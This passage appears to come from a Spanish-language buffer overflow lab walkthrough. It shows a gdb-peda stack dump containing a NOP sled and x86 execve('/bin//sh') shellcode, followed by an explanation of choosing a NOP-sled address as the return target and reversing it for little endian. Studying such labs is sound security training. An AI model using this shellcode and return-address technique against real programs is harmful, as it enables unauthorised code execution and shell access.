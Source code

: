 ```shell
0xffffd400:	0x0000000f	0xffffd42b	0x00000000	0x00000000
0xffffd410:	0x00000000	0x00000000	0x15000000	0x77c52413
0xffffd420:	0xa5540532	0xc2871889	0x69c23290	0x00363836
0xffffd430:	0x00000000	0x2f000000	0x656d6f68	0x67696d2f
0xffffd440:	0x726c6575	0x37616765	0x6c75562f	0x6275486e
0xffffd450:	0x6174532f	0x764f6b63	0x6c667265	0x6f46776f
0xffffd460:	0x67654272	0x656e6e69	0x632f7372	0x65746e6f
0xffffd470:	0x6c2f746e	0x6c657665	0x656c2f73	0x546c6576
0xffffd480:	0x65657268	0x90909000	0x90909090	0x90909090
0xffffd490:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd4a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd4b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd4c0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd4d0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd4e0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd4f0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd500:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd510:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd520:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd530:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd540:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd550:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd560:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd570:	0x90909090	0x90909090	0x90909090	0x99580b6a
0xffffd580:	0x2f2f6852	0x2f686873	0x896e6962	0xcdc931e3
0xffffd590:	0x42424280	0x434c0042	0x4d49545f	0x73653d45
0xffffd5a0:	0x2e584d5f	0x2d465455	0x434c0038	0x4e4f4d5f
0xffffd5b0:	0x52415445	0x73653d59	0x2e584d5f	0x2d465455
0xffffd5c0:	0x41500038	0x2f3d4854	0x746f6f72	0x6f6c2e2f
0xffffd5d0:	0x2f6c6163	0x3a6e6962	0x616e732f	0x69622f70
0xffffd5e0:	0x752f3a6e	0x732f7273	0x62646e61	0x3a2f786f
0xffffd5f0:	0x7273752f	0x636f6c2f	0x622f6c61	0x2f3a6e69
0xffffd600:	0x2f727375	0x3a6e6962	0x6e69622f	0x73752f3a
0xffffd610:	0x6f6c2f72	0x2f6c6163	0x656d6167	0x752f3a73
0xffffd620:	0x672f7273	0x73656d61	0x73752f3a	0x68732f72
0xffffd630:	0x2f657261	0x656d6167	0x752f3a73	0x6c2f7273
0xffffd640:	0x6c61636f	0x6962732f	0x752f3a6e	0x732f7273
0xffffd650:	0x3a6e6962	0x6962732f	0x6f2f3a6e	0x6e2f7470
0xffffd660:	0x2d6d6976	0x756e696c	0x2f343678	0x3a6e6962
0xffffd670:	0x74706f2f	0x6c33692f	0x2d6b636f	0x636e6166
gdb-peda$ 
```

Bueno vamos a tomar una direccion que contengo solo nops que es la esta mas repetida en este caso seria esta que yo elegi
`0xffffd520:0x90909090`

Junk contiene una secuencia de caracteres `\x90` que, en hexadecimal, equivale a `0x90`, que es una sola instrucción NOP.

De igual forma estamos en `little endian` asi que vamos a darle la vuelta

